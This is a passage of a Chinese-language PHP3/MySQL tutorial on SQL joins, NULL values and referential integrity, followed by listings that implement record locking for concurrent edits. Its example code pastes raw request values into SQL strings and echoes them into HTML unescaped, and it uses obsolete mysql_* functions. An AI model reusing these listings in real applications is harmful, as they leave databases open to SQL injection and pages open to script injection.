| --- | --- | --- |
| Eric | Terry Pratchett | Penguin Group |
| Men At Arms | Terry Pratchett | HarperPaperbacks |
| Gnome Man's Land | Esther Friesner | Ace Books |
| Inside-Outside | Philip Jose Farmer | Berkely Pu... |
| The Death of Sleep | Jody Lynn Nye | Baen Publi... |
| The Death of Sleep | Anne McCaffrey | Baen Publi... |

### 注意

> 我尽量让 where 表达式的顺序与 from 子句中的表顺序一致。顺序不会改变结果，但这使得确保已考虑到适当关系的任务更容易。

你可以看到 *The Death of Sleep* 有两位作者，这一点并不明显。你可以利用聚合（GROUP BY 子句）在此类情况下获得很大的优势：

```
SELECT
  books.book_title
  ,COUNT(authors.author_name) AS number_of_authors
FROM
  books
  ,books_authors
  ,authors
WHERE
  books.key_books = books_authors.key_books
  AND books_authors.key_authors = authors.key_authors
GROUP BY
  books.book_title
```

此 SQL 结果为

| book_title | number_of_authors |
|---|---|
| Eric | 1 |
| Men at Arms | 1 |
| Gnome Man's Land | 1 |
| Inside-Outside | 1 |
| The Death of Sleep | 2 |

由于不需要来自**publishers**表的信息，因此它未用于 FROM 子句中。**HAVING**子句可以让你更加明确：

```
SELECT
  books.book_title
  ,COUNT(authors.author_name) AS number_of_authors
FROM
  books
  ,books_authors
  ,authors
WHERE
  books.key_books = books_authors.key_books
  AND books_authors.key_authors = authors.key_authors
GROUP BY
  books.book_title
HAVING
  number_of_authors > 1
```

此 SQL 结果为

| book_title | number_of_authors |
|---|---|
| The Death of Sleep | 2 |

是否有提供相同信息的更高效 SQL 语句？答案是“是”。authors 表对上述 SQL 语句贡献了什么信息？它只是用来计算与每本书相关联的 authors 数量。但是，由于 name 字段的值并不重要，可以计算**key_authors**字段：

```
SELECT
  books.book_title
  ,COUNT(books_authors.key_authors) AS number_of_authors
FROM
  books_authors
  ,books
WHERE
  books_authors.key_books = books.key_books
GROUP BY
  books.book_title
HAVING
  number_of_authors > 1
```

这条 SQL 语句执行速度更快，因为它只连接了两个表。

### 提示

> 从查询中消除所有不必要的表。

## 多种连接类型

MySQL 手册在第 7.12 节中列出了它支持的七种连接类型。虽然你应该熟悉它们，但在大多数情况下，我都建议列出 FROM 子句中的表名，并使用 WHERE 表达式指定连接。这种技术——虽然笨重——具有可移植到大多数（如果不是全部）支持 SQL 的数据库的优势。

### 注意

> 每个数据库引擎似乎都有自己的“风味”连接符号。首次使用数据库引擎时，请查找其关于 select 语句的文档，并仔细阅读有关连接的章节。

## 左连接

到目前为止，没有任何 SQL 语句显示任何关于 *Playgrounds of the Mind* 书的信息，因为它没有作者或出版商信息。普通连接只选择字段相等的记录。如果表 A 中的记录在表 B 中没有对应的记录，则不选择该记录。经常，这是不可接受的。

*左连接*让你即使没有相关记录也能选择记录。例如，以下语句显示 books 表中的所有记录：

SELECT
  books.book_title
  ,COUNT(books_authors.key_authors) AS number_of_authors
FROM
  books LEFT JOIN books_authors
  ON books.key_books = books_authors.key_books
GROUP BY
  books.book_title
ORDER BY
  number_of_authors
  ,books.book_title

该 SQL 语句的结果如下：

| book_title | number_of_authors |
|---|---|
| Playgrounds of the Mind | 0 |
| Eric | 1 |
| Gnome Man's Land | 1 |
| Inside-Outside | 1 |
| Men At Arms | 1 |
| The Death of Sleep | 2 |

## 自然左连接

如果你坚持使用 MySQL，那么使用其部分连接术语是合理的。**自然左连接**选项基于所有同名字段连接两个表。重新处理之前的“统计作者数量”示例，新的 SQL 语句如下所示：

```sql
SELECT
  books.book_title
  ,COUNT(books_authors.key_authors) AS number_of_authors
FROM
  books_authors NATURAL LEFT JOIN books
GROUP BY
  books.book_title
HAVING
  number_of_authors > 1
```

如你所见，不再需要 **WHERE** 子句。使用此选项时必须小心，以确保字段命名得当。

## Using 选项

消除 WHERE 子句的另一种方法是 **left join ... using ()** 选项。以下是一个示例：

```sql
SELECT
  books.book_title
  ,COUNT(books_authors.key_authors) AS number_of_authors
FROM
  books_authors LEFT JOIN books USING (key_books)
GROUP BY
  books.book_title
HAVING
  number_of_authors > 1
```

## 处理空值 (NULL)

字段具有 NULL 值意味着该字段从未被赋值。你可能还记得本章前面的以下 SQL 语句：

```sql
INSERT INTO books (book_title)
VALUES ('Playgrounds of the Mind')
```

乍一看，你可能会认为为 key_publishers 字段创建了一个 NULL 值。事实上，MySQL 为该字段赋值为 0，这是因为在创建表时该字段的定义方式所致：

```sql
,key_publishers int(5) DEFAULT '0' NOT NULL
```

注意 `DEFAULT '0'`。这确保了该字段永远不会被赋值为 NULL。如果为所有字段提供了默认值（并且没有理由不这样做），那么在从单个表中选择数据时，你就不需要担心 NULL 值。

在连接表时，你更有可能遇到 NULL 值。这些 NULL 值是由数据库引擎自动创建的，用于填充虚拟表中的字段。例如，如果你使用以下语句连接 **books** 和 **books_authors** 表：

```sql
SELECT
  books.book_title
  ,books_authors.key_authors
FROM
  books LEFT JOIN books_authors
    ON books.key_books = books_authors.key_books
ORDER BY
  books.book_title
```

结果如下：

| book_title | key_authors |
|---|---|
| Eric | 1 |
| Gnome Man's Land | 2 |
| Inside-Outside | 3 |
| Men at Arms | 1 |
| Playgrounds of the Mind | *NULL* |
| The Death of Sleep | 4 |
| The Death of Sleep | 5 |

与 *Playgrounds of the Mind* 关联的 `key_authors` 的 NULL 值由 MySQL 自动创建。如果你想只选择包含 NULL 值的记录，请使用 `is NULL` 表示法，因为使用 `= NULL` 不能保证有效：

```sql
SELECT
  books.book_title
FROM
  books LEFT JOIN books_authors
  ON books.key_books = books_authors.key_books
WHERE
  books_authors.key_authors is NULL
ORDER BY
  books.book_title
```

你可以有意创建一个 NULL 值。例如，如果你发现 "Eric" 的出版商信息不正确，但又不知道正确的信息：

```sql
UPDATE
  books
SET
  key_publishers = NULL
WHERE
  book_title = 'Eric'
```

在进入新话题之前，再思考一点。NULL 值不等于任何值，除了 NULL。它们也不*不等于*任何值。除非你在 SQL 语句中专门使用 NULL，否则该值（或许还有其所在的记录）会被忽略。

## 参照完整性

了解参照完整性问题对于设计应用至关重要。*参照完整性*是一组确保表之间关系保持有效的规则。例如，如果一个作者的记录被删除，而 `books_authors` 记录仍然引用它，你的数据库就会突然出现断链。断链意味着你的应用程序不稳定——你的 SQL 可能会返回不可预测的结果。

你已经学习了与参照完整性相关的大部分术语，但这里有一个总结：

-   **主表**——主表，或*父表*，包含指向其他表的链接。一个表可以同时被视为主表和关联表。
-   **关联表**——关联表被其他表引用。有时，你可以将它们视为引用表，或*子表*。
-   **主键**——主表中的关键字段。
-   **外键**——外键是主表中指向其他表的字段。

在实施参照完整性之前，必须满足至少三个条件：

-   必须使用多个表。
-   所有相关的关键字段必须具有相同的数据类型。
-   每个关键字段必须具有唯一的值（通常通过某种自动编号技术生成）。

参照完整性可防止以下情况：

-   当主记录引用某条关联记录时删除该记录。这意味着如果一本书的记录指向某个作者，你就不能删除该作者的记录。
-   在关联记录已存在的情况下插入主记录。这意味着在创建书籍记录之前（假设书籍记录需要新作者），你必须先创建作者记录。
-   更改关联记录的关键值。更改关键值是一个非常严重的错误。如果你总是使用自动生成的整数，就永远没有理由更改关键值。

许多数据库引擎允许你在数据库本身定义表关系。这使得引擎可以通过拒绝违反规则的 SQL 来强制执行完整性。关于 MySQL 为何不允许在数据库内部定义关系的原因，请参阅 MySQL 手册的第 5.3.5.1 节。

我倾向于将参照完整性构建到我的应用程序中，而不是数据库引擎中。这是一个有争议的观点，但我喜欢它所提供的控制力，尤其是在数据库责任由应用程序开发人员和数据库管理员分担的情况下。

在专业项目中，我为每个数据库表分配一个单独的代码模块。模块内部包含插入、删除和更新函数。每个删除函数都有一个相关的删除确认问题，以减少意外删除。并且每个删除函数在执行删除操作前都会检查参照完整性。

我所有的插入表单都有按钮，以便在需要时创建相关信息。并且相关信息始终使用下拉列表呈现，以确保只能输入有效的数据。

## 总结

现实世界的 SQL 作为一个主题已经填满了许多书籍。我鼓励你尽可能多地阅读，以便从他人的成功和错误中学习。

本章首先探讨了如何将信息拆分到多个表中，每个表可能包含比原始表更详细的信息。由于存在多个表，它们之间也必然存在关系。大多数数据库识别三种类型的关系：

-   **一对一**——一本书只能有一个出版商。
-   **一对多**——一本书可以有多个作者。
-   **多对多**——一个出版商可以与多位作者合作，一位作者也可以与多家出版商合作。

创建了示例表和数据来说明这些关系。并使用 select 语句中的连接创建了虚拟表。例如，以下 SQL 使用 state_name 字段连接两个表，并从生成的虚拟表中选择所有 business_name 为 "Red Hat Software, Inc." 的记录：

```sql
SELECT
  population
FROM
  states, businesses
WHERE
  states.state_name = businesses.state_name
  AND business.business_name = 'Red Hat Software, Inc.'
```

你可以根据需要在 select 语句中添加任意数量的连接表达式。

链接表支持一对多和多对多关系。通常，链接表中只存储每个相关表的关键字段。但偶尔，关系固有的信息（如结婚日期）也会存储在链接表中。用于创建链接表的 SQL 可能如下所示：

```sql
CREATE TABLE
  books_authors
(
  key_books_authors INT(5) not null AUTO_INCREMENT
  ,key_books INT(5) not null
  ,key_authors INT(5) not null
  ,PRIMARY KEY (key_books_authors)
)
```

而使用链接表的 SQL 可能如下：

```sql
SELECT
  books.book_title
  ,authors.author_name
  ,publishers.publisher_name
FROM
  books
  ,books_authors
  ,authors
  ,publishers
WHERE
  books.key_books = books_authors.key_books
  AND books_authors.key_authors = authors.key_authors
  AND books.key_publishers = publishers.key_publishers
```


## 小结

在讨论了链接表之后，本文给出了聚合（`group by` 子句）和聚合过滤（`having` 子句）的示例。使用 `count` 函数来显示每本书由多少位作者编写。

MySQL（以及其他数据库引擎）支持多种类型的连接。由于几乎没有哪种连接被所有数据库引擎都支持，我建议在 SQL 的 `from` 子句中列出表名，并使用 `where` 表达式手动指定连接。

NULL 值很重要，尤其是在执行统计任务时。但在我创建的互联网应用中，很少发现需要使用它们。大多数时候，NULL 等同于空字符串。

引用完整性至关重要。你必须控制记录插入的顺序以及删除的方式。在一条记录仍被链接表引用时删除它，简直就是自找麻烦——数据损坏很快就会随之而来。

下一章“幕间四：管理并发访问”将带领你踏上引用完整性之路。第一步是知道哪个用户修改了哪条记录，并确保一个用户不能随意覆盖另一个用户的更改。

# 幕间四：管理并发访问

当多个用户可以在同一个数据库中添加、删除和更新信息时，可能会导致混乱，尤其是当两个用户同时更新同一条记录时。本章探讨在 PHPLIB 模块基础上管理并发访问的方法。

## 问题：一个用户可以覆盖另一个用户的更改

并发编辑信息的问题在于，一个人的更改会覆盖另一个人的更改。本节演示该问题，以便后续纠正。

首先，创建一个简单的数据库表。然后，开发一个用于输入和编辑表中信息的应用程序。最后，使用两个浏览器（Netscape 和 Microsoft）模拟两个用户编辑同一条记录。

## 创建并发数据库

为了本章的需要，我们需要一个非常简单的表。下面所示的 SQL 足以创建一个包含两个重要字段——name 和 phone——的表。其他字段仅用于管理目的。

```sql
CREATE TABLE
  concurrent
(
  key_concurrent INT (5) not null AUTO_INCREMENT
  ,name VARCHAR (50) not null
  ,phone VARCHAR (50) not null
  ,dte_created datetime DEFAULT '0000-00-00 00:00:00' NOT NULL
  ,dte_updated datetime DEFAULT '0000-00-00 00:00:00' NOT NULL
  ,PRIMARY KEY (key_concurrent)
)
```

## 说明性应用

清单 15.1 展示了一个允许用户添加、编辑和删除记录的应用程序。该应用程序允许两个人编辑同一条记录，从而产生以下一系列事件：

1. 用户 A 编辑 *David Medinets*。
2. 用户 B 编辑 *David Medinets*。
3. 用户 A 更改电话号码并保存记录。该事件如图 15.1 所示。
4. 用户 B 将姓名更改为 *David Mark Medinets* 并保存记录。该事件导致用户 A 对电话号码的更改丢失。


会话的确定基于 cookie（或通过持续在网站的每个 URL 上传递 session id 值）。由于 cookie 由 Web 浏览器存储，因此测试并发访问需要你拥有两台计算机系统或两个不同的浏览器（如 Netscape 和 Lynx）。

**注意**

### 清单 15.1 concurrent01.php3——添加、编辑和删除记录，但没有任何并发检查

```php
<?php // concurrent01.php3
$dbname  = 'php_book';
$hostname = 'localhost';
$table_name = "concurrent";
$username = 'phpuser';
$password = 'phpuser';

$id_link = @mysql_connect($hostname, $username,
$password);
```

```php
if (! $id_link) {
    echo '<html><head><title>Error</title></head><body>';
    echo 'Connection to PHP has failed.';
    echo '</body></html>';
    exit();
}
```

```php
function affy_error_exit($msg) {
    $errno = mysql_errno();
    $error = mysql_error();
    echo '<html><head><title>Error</title></head><body>';
    echo $msg;
    echo "<br>Error: ($errno) $error<br>";
    echo '</body></html>';
    exit();
}
```

```php
// cet_display_form
//
// Expected parameters:
//   bgcolor    - background color of html table.
//   next_action - action attribute of form
//   name       - value of the name field.
//   phone      - value of the phone field.
//   button     - text of submit button.
//
```

```php
function cet_display_form($ary) {
    $key_value   = $ary['key_value'];
    $next_action = $ary['next_action'];
    $bgcolor = $ary['bgcolor'];
    if (! strlen($bgcolor)) {
        $bgcolor = 'lime';
    }

    echo '<table border="1" bgcolor="';
    echo $bgcolor;
    echo '" cellpadding="5"><tr><td>';
    echo '<form action="index.php3" method="post">';

    echo '<input type="hidden" name="action"';
    echo " value=\"$next_action\">";

    echo '<input type="hidden" name="key_value"';
    echo " value=\"$key_value\">";

    echo 'Name: <input type="text" name="name" value="';
    echo $ary['name'];
    echo '"><br>';
    echo 'Phone: <input type="text" name="phone" value="';
```

```php
echo $ary['phone'];
echo "<br><br>";
echo '<center><input type="submit"';
echo ' value="';
echo $ary['button'];
echo '"></center>';
echo '</form></td></tr></table><br>';
}
```

```php
// cet_href
//
function cet_href($action, $text, $key_value) {
  echo '<font size="2" color="blue">';
  echo "<a href=\"$PHP_SELF?action=$action&key_value=$key_value\">";
  echo "$text</a></font>";
}
```

```php
// cet_insert
//
// Expected parameters:
//   table_name - the database table name.
//   dbname     - the database name.
//   id_link    - the connection id for the database.
//   name       - value of the name field.
//   phone      - value of the phone field.
//
```

```php
function cet_insert($ary) {
  $table_name  = $ary['table_name'];
  $dbname      = $ary['dbname'];
  $id_link     = $ary['id_link'];
  $name        = $ary['name'];
  $phone       = $ary['phone'];
  $current_date = date('Y-m-d H:i:s');

  $str_sql = "
    insert into
      $table_name
      (
        dte_created
       ,dte_updated
       ,name
       ,phone
      )
    values
      (
        '$current_date'
```

```php
,'$current_date'
,'$name'
,'$phone'
)
";

$result = mysql_db_query($dbname, $str_sql, $id_link);
if (!$result) {
  affy_error_exit("SQL Insert Execution has failed.
  <br><b>$str_sql</b>
  ");
}
```

```php
// cet_update
//
// Expected parameters:
//   table_name - the database table name.
//   dbname     - the database name.
//   id_link    - the connection id for the database.
//   key_value  - the id of the record to update.
//   name       - value of the name field.
//   phone      - value of the phone field.
//
function cet_update($ary) {
  $table_name   = $ary['table_name'];
  $dbname       = $ary['dbname'];
  $id_link      = $ary['id_link'];
  $key_value    = $ary['key_value'];
  $name         = $ary['name'];
  $phone        = $ary['phone'];
  $current_date = date('Y-m-d H:i:s');

  $str_sql = "
    update
      $table_name
    set
      name = '$name'
      ,phone = '$phone'
      ,dte_updated = '$current_date'
    where
      key_$table_name = $key_value
  ";

  $result = mysql_db_query($dbname, $str_sql, $id_link);
  if (!$result) {
    affy_error_exit("SQL Update Execution has failed.
    <br><b>$str_sql</b>
```

```php
);
  }
}
```

```php
// Expected parameters:
//   dbname    - the database name.
//   table_name - the database table name.
//   key_value - the key for the needed record.
//   id_link   - the connection id for the database.
//
function cet_read($ary) {
  $table_name = $ary['table_name'];
  $key_value = $ary['key_value'];

  $str_sql = "
    select *
    from $table_name
    where key_$table_name = $key_value
  ";

  $result =
    mysql_db_query(
      $ary['dbname'], $str_sql, $ary['id_link']);

  if (! $result) {
    affy_error_exit("SQL Select Execution failed.
      <br><b>$str_sql</b>
    ");
  }

  $record = @mysql_fetch_object($result);

  return($record);
}
```

```php
// All of the PHP functions are now defined.
// it's time to perform the actions and
// display the page.
?>
```

```php
<html><head><title>cet: Concurrent Edit Test</title></head>
<body>
<h1>Concurrent Edit Test</h1>

<?php
// Handle the delete action.
if ($arr_request['action'] == 'delete') {
```


## 问题：一个用户可能覆盖另一个用户的修改

```
$key_value = $arr_request['key_value'];

$str_sql = "
  delete from $table_name
  where key_$table_name = $key_value
";

$result = mysql_db_query($dbname, $str_sql, $id_link);
if (! $result) {
  affy_error_exit("SQL Delete Execution has failed.
  <br><b>$str_sql</b>
  ");
}

echo '<p>The record has been deleted.</p>';
echo "<p>Click <a href=\"$PHP_SELF\">Here</a> ";
echo 'for Further Table Maintenance.</p>';
exit();
```

// 处理更新操作。

```
if ($arr_request['action'] == 'update') {
  $record = cet_update(array(
     dbname    => $dbname
    ,table_name => $table_name
    ,id_link   => $id_link
    ,key_value  => $arr_request['key_value']
    ,'name'    => $arr_request['name']
    ,'phone'   => $arr_request['phone']
  ));

  echo '<p>The record has been updated.</p>';
  echo "<p>Click <a href=\"$PHP_SELF\">Here</a> ";
  echo 'for Further Table Maintenance.</p>';
  exit();
}
```

// 处理编辑操作。

```
if ($arr_request['action'] == 'edit') {
  $record = cet_read(array(
     dbname    => $dbname
    ,table_name => $table_name
    ,key_value  => $arr_request['key_value']
    ,id_link   => $id_link
  ));

  cet_display_form(array(
    'key_value'  => $arr_request['key_value']
    , 'name'       => $record->name
    , 'phone'      => $record->phone
    , 'bgcolor'    => 'yellow'
    , 'button'     => 'Save Changes'
    , 'next_action' => 'update'
  ));

  exit();
}
```

// 处理插入操作。

```
if ($arr_request['action'] == 'insert') {
  cet_insert(array(
    'table_name' => $table_name
   ,'dbname'     => $dbname
   ,'id_link'    => $id_link
   ,'name'       => $arr_request['name']
   ,'phone'      => $arr_request['phone']
  ));

  echo '<p>The record has been inserted.</p>';
  echo "<p>Click <a href=\"$PHP_SELF\">Here</a> ";
  echo 'for Further Table Maintenance.</p>';

  exit();
}
```

```
$str_sql = "select * from $table_name";

$result = mysql_db_query($dbname, $str_sql, $id_link);
if (! $result) {
  affy_error_exit("SQL Select Execution has failed.
  <br><b>$str_sql</b>
  ");
}
```

```
$number_of_records = @mysql_num_rows($result);

// 显示一个表单，以便用户可以随时添加
// 记录。
cet_display_form(array(
  "name"        => ""
 ,"phone"       => ""
 ,'next_action' => 'insert'
 ,'button'      => 'Add a Record'
));
```

```
if ($number_of_records < 1) {
  echo '<p>There are no records in this table.</p>';
}
else {

echo '<table cellpadding="5">';
echo '<tr><th>Actions</th>';
echo '<th>Name</th><th>Phone</th></tr>';

for ($index = 0;
$index < $number_of_records;
$index++) {

$record = @mysql_fetch_object($result);
echo '<tr><td>';
cet_href('edit', 'Edit', $record->key_concurrent);
echo '&nbsp;&nbsp;';
cet_href('delete', 'Delete', $record->key_concurrent);
echo '</td>';
printf('<td>%s</td>', $record->name);
printf('<td>%s</td>', $record->phone);
echo '</tr>';
}

echo '</table>';
}
?>

</body>
</html>
```

这个应用程序中的大部分代码你应该都很熟悉。不过，已经做了一些改进。几乎每个函数都使用了命名参数。而且所有函数都在页面开头声明。此外，错误消息现在会显示失败的 SQL 语句。这些都是微小的改动，但它们有助于维护应用程序，并为用户提供更好的界面。

## 解决方案：防止多用户同时编辑

解决人们相互覆盖修改问题的最明显方法是，一次只允许一个用户编辑信息。如果可以使用第 13 章"认证"中的信息来识别每个用户，那么编写代码确保一次只有一个人编辑记录是很简单的。

由于你不希望访问者为每个网页都输入用户 ID 和密码，你需要一种在访问者从一页浏览到另一页时保存信息的方法。例如，如果你的访问者刚刚执行了一次搜索，如果你的网站允许用户深入查看详细信息，然后重新查看搜索结果，那么网站会更容易使用。然而，执行两次相同的搜索是低效的。如果你有一种方法将搜索结果"附加"到访问者身上，就可以避免第二次搜索。*会话（Sessions）*允许你执行这种数据的"附加"操作。

我建议使用 PHPLIB 模块（在第 2 章中安装）来控制会话信息。会话在访问者第一次加载页面时开始，并持续特定的分钟数。每次加载支持会话的页面时，会话计时器都会重置。所以，如果访问者首次在下午 4 点访问你的服务器，而你的会话持续两小时，那么该会话在下午 6 点超时。如果同一访问者在你的网站上浏览了 30 分钟，那么会话在下午 6:30 超时。会话通常持续数小时，以便访问者可以离开你的网站（也许他们需要出去吃午饭）并返回而不会丢失会话。

可以跟踪的数据类型是无限的：范围可以涵盖从阅读各种页面时累积的折扣列表到访问者在你的网站上停留了多长时间，再到信用卡信息。

> PHPLIB 模块的最大优势之一是，你不需要知道会话实际上是如何实现的。而且，如果你好奇的话，PHPLIB 是开源的。

## 跟踪编辑会话

一次只允许一个用户编辑记录的一种方法是将编辑者的名字放入正在编辑的记录中。例如，concurrent 表可以改为：

```
CREATE TABLE
  concurrent
(
  key_concurrent INT (5) not null AUTO_INCREMENT
  ,editor VARCHAR (50) not null
  ,name VARCHAR (50) not null
  ,phone VARCHAR (50) not null
  ,dte_created datetime DEFAULT '0000-00-00 00:00:00' NOT NULL
  ,dte_updated datetime DEFAULT '0000-00-00 00:00:00' NOT NULL
  ,PRIMARY KEY (key_concurrent)
)
```

然后，每当用户请求编辑记录的权利时，可以检查这个字段。如果为空，可以显示编辑表单；如果不为空，则只能查看记录。

你能看出这种技术有什么缺点吗？

如果你说这种技术需要更改每个受保护的表，那你就对了。显然，更改表是不理想的。除了涉及额外的工作之外，这也是不必要的。相反，可以创建一个名为 locks 的新数据库表：

```
CREATE TABLE locks
(
key_locks INT (5) not null AUTO_INCREMENT
,table_name VARCHAR (50) not null
,user_name VARCHAR (50) not null
,record_key INT (5) not null
,dte_created datetime DEFAULT '0000-00-00 00:00:00' NOT NULL
,PRIMARY KEY (key_locks)
)
```

这个表足够灵活，可以跟踪任意数量的表。每次用户编辑记录时，都会存储他们的用户名、表名和被编辑记录的键值。当编辑的记录被保存时，锁定记录会被删除。

你能看出这种技术有什么缺点吗？

唱反调总是很重要的——在设计应用程序时，寻找弱点是一项必要的活动。在这种情况下，如果编辑记录的用户决定在保存记录之前回家（这会导致锁定被删除），就会出现问题。

你可以通过检查 dte_created 字段来解决这个问题。如果锁定超过 15 分钟（或你选择的其他时间间隔），可以删除它并显示编辑表单。

## 设计解决方案

既然存储用户信息（以锁定形式）的技术已经确定，还需要做什么呢？

- 当用户加载网页时，他们需要登录并被分配一个会话——PHPLIB 可以处理这个。

- 当记录被编辑时，需要更新 locks 表——这段代码需要编写。

- 需要移除（当前正在编辑的记录的）编辑和删除选项——这段代码需要编写。

- 需要一个注销选项——这段代码需要编写。

- 需要删除超过 15 分钟的锁定——这段代码需要编写。

图 15.2 显示了 PHPLIB 使用的默认登录屏幕。在阅读 PHPLIB 文档后，你可以轻松更改登录页面的外观。


**图 15.2** PHPLIB 的默认登录屏幕。


## **注意**

> 我喜欢鼓励人们快速地进行修改，不受打扰——因此这个系统很适合我。你所在组织的政治氛围可能不允许你如此专断。

图 15.3 显示了一个人已登录。请注意屏幕左上角的退出登录选项，以及用户名显示在标题下方。


**图 15.3** 一个人已登录并查看可用记录。

图 15.4 显示了两个人已登录，其中一人正在编辑记录。请注意 user02 的页面会告知当前是谁正在编辑该记录，并且编辑和删除选项已被关闭。


**图 15.4** 两个人已登录，一人正在编辑记录，另一人正在查看可用记录。

图 15.5 显示了当一个人编辑记录超过五分钟时出现的错误信息。超过五分钟的锁定会自动删除，这既是好事也是坏事。如果会计部的约翰需要编辑一条记录，而财务部的玛丽在保存该记录之前刚好去开会了，那么约翰只需等待五分钟即可执行他的任务。但另一方面，玛丽即将保存的任何更改都会丢失。



**图 15.5** 当一个人编辑记录超过五分钟后尝试保存更改时，会显示此错误信息。

清单 15.2、15.3 和 15.4 实现了所有这些功能。有趣的代码行都加了注释。我使用的 PHPLIB 功能在其文档中有说明。

### **清单 15.2** *concurrent02.php3——该程序是应用程序的核心，所有操作都从这里开始；它就像是应用程序的交换台*

```php
<?php // concurrent02.php3

// Load the class definitions used by PHPLIB.
// Also the code to fill the $arr_request array.
require('common.inc');

// Load the functions specific to this program.
require('concurrent.inc');

// phpbook_db is the database class derived from
// DB_Sql of PHPLIB. It creates a connection to the
// database. Every function that uses SQL needs to
// have a "global $db;" statement.
$db = new phpbook_db;
if (! $db) {
    affy_error_exit('Connection to PHP has failed.');
}

// Handle the various actions.
if ($arr_request['action'] == 'cancel_edit') {
    do_cancel_edit_action();
}

if ($arr_request['action'] == 'delete') {
    do_delete_action();
}

if ($arr_request['action'] == 'update') {
    do_update_action();
}

if ($arr_request['action'] == 'edit') {
    do_edit_action();
}

if ($arr_request['action'] == 'insert') {
    do_insert_action();
}
```

```php
// Display the web page heading.
cet_heading();
```

```php
// Display a form so users can always add
// records.
cet_display_form(array(
 "name"         => ""
 ,"phone"        => ""
 ,'next_action'  => 'insert'
 ,'button'       => 'Add a Record'
));
```

```php
// Remove locks that are over 5 minutes old.
// NOTE: This SQL is specific to MySQL.
$db->query("
  delete from
    locks
  where
    date_add(dte_created, INTERVAL 5 MINUTE) < now()
");
```

```php
// Select all of the records (and applicable locks)
$db->query("
  select
    *
  from
    $table_name LEFT JOIN locks
      ON $table_name.key_$table_name = locks.record_key
         AND locks.table_name = '$table_name'
");
```

```php
if ($db->num_rows() < 1) {
  echo '<p>There are no records in this table.</p>';
}
else {
```

```php
  echo '<table cellpadding="5">';
  echo '<tr><th>Actions</th>';
  echo '<th>Name</th><th>Phone</th><th>Editor</th></tr>';
```

```php
  // The next_record function must be called before the
  // $db->f(field_name) notation can be used.
  while($db->next_record()) {
```

```php
// If the user_name field has a length, then
// the record is locked.
$locked = strlen($db->f('user_name'));

echo '<tr><td align="right">';

// If the record isn't locked, display the edit
// and delete options.
if (! $locked) {
  cet_href('edit', 'Edit', $db->f('key_concurrent'));
  echo '&nbsp;&nbsp;';
  cet_href('delete', 'Delete', $db->f('key_concurrent'));
}
echo '</td>';

// Display the record's fields.
printf('<td>%s</td>', $db->f('name'));
printf('<td>%s</td>', $db->f('phone'));

// Only display the lock information if the
// record is locked.
if ($locked) {
  printf('<td>%s at %s</td>',
    $db->f('user_name')
    ,$db->f('dte_created'));
}
else {
  echo '<td>&nbsp;</td>';
}
echo '</tr>';

    echo '</table>';
  }

echo '</body></html>';

page_close();

?>
```

### **清单 15.3** *concurrent.inc*

```php
<?php // concurrent.inc

// cet_display_form
//
// Expected parameters:
//   bgcolor - background color of html table.
//   next_action - action attribute of form
//   name        - value of the name field.
//   phone       - value of the phone field.
//   button      - text of submit button.
//
function cet_display_form($ary) {
  global $PHP_SELF;

  $key_value  = $ary['key_value'];
  $next_action = $ary['next_action'];
  $bgcolor = $ary['bgcolor'];
  if (! strlen($bgcolor)) {
    $bgcolor = 'lime';
  }

  echo '<table border="1" bgcolor="';
  echo $bgcolor;
  echo '" cellpadding="5"><tr><td>';
  printf('<form action="%s" method="post">', $PHP_SELF);

  echo '<input type="hidden" name="action"';
  echo " value=\"$next_action\">";

  echo '<input type="hidden" name="key_value"';
  echo " value=\"$key_value\">";

  echo 'Name: <input type="text" name="name" value="';
  echo $ary['name'];
  echo '"><br>';
  echo 'Phone: <input type="text" name="phone" value="';
  echo $ary['phone'];
  echo '"><br><br>';
  echo '<center><input type="submit"';
  echo ' value="';
  echo $ary['button'];
  echo '">';
  echo '</form>';

  // The cancel button is optional because add forms
  // don't need them.
  if ($ary['cancel_button'] == 'yes') {
      printf('<form action="%s" method="post">',
$PHP_SELF);
      echo '<input type="hidden" name="action"';
      echo ' value="cancel_edit">';
      echo '<input type="hidden" name="key_value"';
      echo " value=\"$key_value\">";
      echo '<input type="submit" value="Cancel">';
      echo '</form>';
  }

  echo '</center></td></tr></table><br>';
}
```

```php
// cet_href
//
function cet_href($action, $text, $key_value) {
  global $PHP_SELF;

  echo '<font size="2" color="blue">';
  echo "<a
href=\"$PHP_SELF?action=$action&key_value=$key_value\">";
  echo "$text</a></font>";
}
```

```php
// cet_insert
//
// Expected parameters:
//   table_name - the database table name.
//   dbname     - the database name.
//   id_link    - the connection id for the database.
//   name       - value of the name field.
//   phone      - value of the phone field.
//
function cet_insert($ary) {
  global $db;

  $table_name  = $ary['table_name'];
  $dbname      = $ary['dbname'];
  $id_link     = $ary['id_link'];
  $name        = $ary['name'];
  $phone       = $ary['phone'];
  $current_date = date('Y-m-d H:i:s');

  $db->query("
    insert into
      $table_name
      (
        dte_created
        ,dte_updated
        ,name
        ,phone
      )
      values
      (
        '$current_date'
        ,'$current_date'
        ,'$name'
        ,'$phone'
      )
  ");
}
```

```php
// cet_update
//
// Expected parameters:
//   table_name - the database table name.
//   dbname     - the database name.
//   id_link    - the connection id for the database.
//   key_value  - the id of the record to update.
//   name       - value of the name field.
//   phone      - value of the phone field.
//
function cet_update($ary) {
  global $db;

  $table_name  = $ary['table_name'];
  $dbname      = $ary['dbname'];
  $id_link     = $ary['id_link'];
  $key_value   = $ary['key_value'];
  $name        = $ary['name'];
  $phone       = $ary['phone'];
  $current_date = date('Y-m-d H:i:s');

  $db->query("
    update
      $table_name
    set
      name = '$name'
      ,phone = '$phone'
      ,dte_updated = '$current_date'
    where
      key_$table_name = $key_value
  ");
}
```

```php
// Expected parameters:
//   dbname    - the database name.
//   table_name - the database table name.
//   key_value  - the key for the needed record.
//   id_link    - the connection id for the database.
//
```


function cet_read($ary) {
    global $db;
    $table_name = $ary['table_name'];
    $key_value  = $ary['key_value'];
    $db->query("select * from $table_name where key_$table_name = $key_value");
    $db->next_record();
}

function do_delete_action() {
    global $arr_request;
    global $table_name;
    global $key_value;
    global $PHP_SELF;
    global $db;
    $key_value = $arr_request['key_value'];
    $db->query("delete from $table_name where key_$table_name = $key_value");
    echo '<p>记录已被删除。</p>';
    echo "<p>点击<a href=\"$PHP_SELF\">此处</a> ";
    echo '进行进一步的表维护。</p>';
    exit();
}

function do_update_action() {
    global $arr_request;
    global $table_name;
    global $db;
    global $PHP_SELF;
    $key_value = $arr_request['key_value'];
    // 检查锁是否仍然存在。如果不存在，
    // 显示错误消息。
    $db->query("select *
        from locks
        where table_name = '$table_name'
        and record_key = $key_value
    ");

    if ($db->num_rows() < 1) {
        echo '<p>错误：编辑会话时间过长。</p>';
